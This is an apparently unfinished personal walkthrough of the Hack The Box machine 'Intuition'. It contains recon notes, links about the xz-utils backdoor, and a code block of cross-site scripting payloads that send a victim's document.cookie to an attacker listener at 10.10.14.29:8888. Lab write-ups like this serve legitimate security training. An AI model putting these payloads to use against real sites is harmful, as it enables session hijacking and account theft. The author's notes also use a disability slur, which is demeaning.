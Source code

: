 # Anomalies : Intuition Writeup

Name: Intuition
Date:  
Difficulty: Hard
Goals:  
- Dyslexia is being a special kind of Retarded -  

Learnt:
- SpeeeeellChEckInG TimE
- URL encoding payload
- JavaScript
Beyond Root:
- New XSS THM Room completion
- New Race Conditions THM Room completion
- Schooled.htb Guided completion
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Wreath/Screenshots/ping.png)

Redirect to domain of comprezzor
![](curlfortheredirect.png)

This is a bit of a tease for a recent as of 2024 LZMA ssh backdoor that hit some rolling and dev distros of Linux, but the file upload works and is import for escalation on the site at a later point
![](comprezzorwww-root.png)

We as a unauthenticated user can report a bug
![](reportbug-comprezzor.png)

- https://launchpad.net/ubuntu/+source/openssh/1:8.9p1-3ubuntu0.7 
- 
- not
	- https://ubuntu.com/security/CVE-2024-3094
	- https://www.rapid7.com/blog/post/2024/04/01/etr-backdoored-xz-utils-cve-2024-3094
	- https://www.akamai.com/blog/security-research/critical-linux-backdoor-xz-utils-discovered-what-to-know
	- https://www.logpoint.com/en/blog/emerging-threats/xz-utils-backdoor/
-
-
https://medium.com/@marduk.i.am/exploiting-cross-site-scripting-to-steal-cookies-3d14c8b42fae
```html
<img src=x onerror="this.src='http://10.10.14.29:8888/'+document.cookie; this.removeAttribute('onerror');">

<script><img src=x onerror="this.src='http://10.10.14.29:8888/'+document.cookie; this.removeAttribute('onerror');"></script>

<!-- https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies -->
<script> fetch('http://10.10.14.29:8888', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>

```